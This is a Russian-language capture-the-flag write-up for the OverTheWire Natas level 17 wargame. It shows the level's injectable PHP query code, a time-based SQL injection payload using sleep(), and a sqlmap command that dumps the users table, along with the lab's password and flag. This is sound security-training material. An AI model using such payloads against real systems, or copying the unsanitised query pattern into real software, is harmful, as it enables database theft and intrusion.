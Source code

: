 # NATAS_17 WriteUp
:computer: Host: http://natas16.natas.labs.overthewire.org/  
:bust_in_silhouette: Usename: natas17  
:key: Password: XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd

:triangular_flag_on_post: Flag: 8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq
 
- [NATAS\_17 WriteUp](#natas_17-writeup)
  - [Обзор веб-приложения](#обзор-веб-приложения)
  - [Решение](#решение)

## Обзор веб-приложения
<a name="Обзор_веб-приложения"></a> 
Веб-приложение выглядит следующим образом
![Скриншот веб-приложения](./img/natas17/natas17_0.png)

При вводе строки ``test`` веб-приложение ведёт себя странно
![Скриншот веб-приложения](./img/natas17/natas17_1.png)

Кнопка <kbd>**View sourcecode**</kbd> позволяет просмотреть исходный код страницы
```php
// HTML Code ...
<?php
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas17', '<censored>');
    mysqli_select_db($link, 'natas17');
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }
    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }
    mysqli_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<?php } ?>
// HTML Code ...
```

## Решение
<a name="Решение"></a>
Разберёмся почему веб-приложение не выдаёт никакой информации при отправке данных в форму
```php
if(mysqli_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }
```

Вывод закомментирован.. вероятно для того, чтобы принудить нас к использованию именно time-based SQL инъекцию

Запрос к БД формируется следующим образом
```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
```

Попробуем вызвать функцию ``sleep(1)``  
:space_invader: Payload: ``test" or username=(select sleep(1)) #`` 

![Проведение атаки](./img/natas17/natas17_2.png)

Наличие time-based SQL инъекции подтвердили, можно доверить брутфорс автоматике
люч запуска **sqlmap**
```bash
sqlmap -u http://natas17.natas.labs.overthewire.org/ --data="username=natas17" --auth-type Basic --auth-cred natas17:XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd --technique=T --dbms mysql --level 5 --risk 3 --batch --threads 10 -D natas17 -T users --dump
```

Дамп таблицы
![Флаг](./img/natas17/natas17_3.png)


Полученный флаг: 8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq
